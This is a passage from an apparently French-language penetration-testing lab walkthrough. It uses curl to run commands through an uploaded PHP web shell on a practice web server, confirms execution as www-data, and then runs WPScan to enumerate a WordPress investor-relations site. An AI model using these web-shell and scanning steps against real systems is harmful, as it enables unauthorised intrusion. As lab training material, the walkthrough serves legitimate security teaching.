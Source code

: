 Nous pouvons maintenant utiliser `cURL` pour interagir avec ce shell Web et exécuter des commandes sur le serveur Web.

```
dsgsec@htb[/htb]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=id

uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

En vérifiant l'adressage IP de l'hôte, il ne semble pas que nous ayons atterri à l'intérieur du réseau interne Inlanefreight car l'adresse IP n'est pas dans la portée du réseau interne. Il ne s'agit peut-être que d'un serveur Web autonome, nous allons donc continuer.

```
dsgsec@htb[/htb]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=hostname%20-I

172.18.0.3

```

À partir de là, nous pouvons énumérer davantage l'hôte, en recherchant des données sensibles, noter deux autres résultats : `Téléchargement de fichiers HTTP` et `Téléchargement de fichiers sans restriction`, et passer à l'hôte suivant.

* * * * *

ir.inlanefreight.local
----------------------

La prochaine cible de notre liste est `http://ir.inlanefreight.local`, le portail de relations avec les investisseurs de l'entreprise hébergé avec WordPress. Pour cela, nous pouvons consulter la section [WordPress - Discovery & Enumeration](https://academy.hackthebox.com/module/113/section/1100) du module `Attaquer les applications courantes` . Lançons `WPScan` et voyons ce que nous pouvons énumérer à l'aide de l'indicateur `-ap` pour énumérer tous les plug-ins.

```
dsgsec@htb[/htb]$ sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] WordPress version 6.0 identifiée (Dernière sortie le 2022-05-24).
  | Trouvé par : Générateur RSS (Détection passive)
  | - http://ir.inlanefreight.local/feed/, <generator>https://wordpress.org/?v=6.0</generator>
  | - http://ir.inlanefreight.local/comments/feed/, <generator>https://wordpress.org/?v=6.0</generator>

[+] Thème WordPress utilisé : cbusiness-investment
  | Emplacement : http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
  | Dernière version : 0.7 (à jour)
  | Dernière mise à jour : 2022-04-25T00:00:00.000Z
  | Lisez-moi : http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
  | URL du style : http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
  | Style: Investissement d'entreprise
  | Style URI : https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
  | Description : Le thème WordPress CBusiness Investment est utilisé pour tous les types d'entreprises. Ce T polyvalent...
  | Auteur : Themescave
  | URI de l'auteur : http://www.themescave.com/
  |
  | Trouvé par: Style CSS dans la page d'accueil (détection passive)
  | Confirmé par : Style CSS dans la page 404 (détection passive)
  |
  | Version : 0,7 (80 % de confiance)
```